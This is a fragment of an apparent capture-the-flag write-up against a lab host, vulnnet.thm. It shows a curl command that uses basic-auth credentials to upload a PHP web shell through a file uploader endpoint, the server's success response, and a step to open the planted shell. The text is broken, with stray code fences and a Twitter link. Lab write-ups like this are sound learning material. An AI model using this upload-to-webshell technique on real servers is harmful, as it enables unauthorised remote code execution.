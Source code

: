 ```shell
Twitter: https://twitter.com/sec_consult```
```

## Command I tested

```shell
curl -F "file=@shell.php" -F "plupload=1" -F "name=anyname.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u developers:9972761drmfsls

# Response
creating file{"success":"yes","file_name":"17137390110d6a17","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
```

- Now go the the `http://broadcast.vulnnet.thm/actions/` and click the shell